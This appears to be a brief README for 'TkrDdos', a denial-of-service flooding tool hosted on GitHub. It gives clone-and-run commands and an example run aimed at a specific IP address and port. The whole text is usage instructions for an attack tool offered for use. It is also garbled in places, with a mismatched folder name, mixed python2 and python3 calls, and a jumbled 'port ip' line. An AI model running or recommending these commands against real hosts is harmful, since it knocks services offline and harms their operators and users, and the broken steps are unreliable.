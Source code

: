 # TkrDdos

git clone https://github.com/Pogko/TkrDdos.git

cd TrkDDos

port ip python3 TkrDdos.py

CONTOH

python2 TkrDdos.py 23.88.73.88 14598
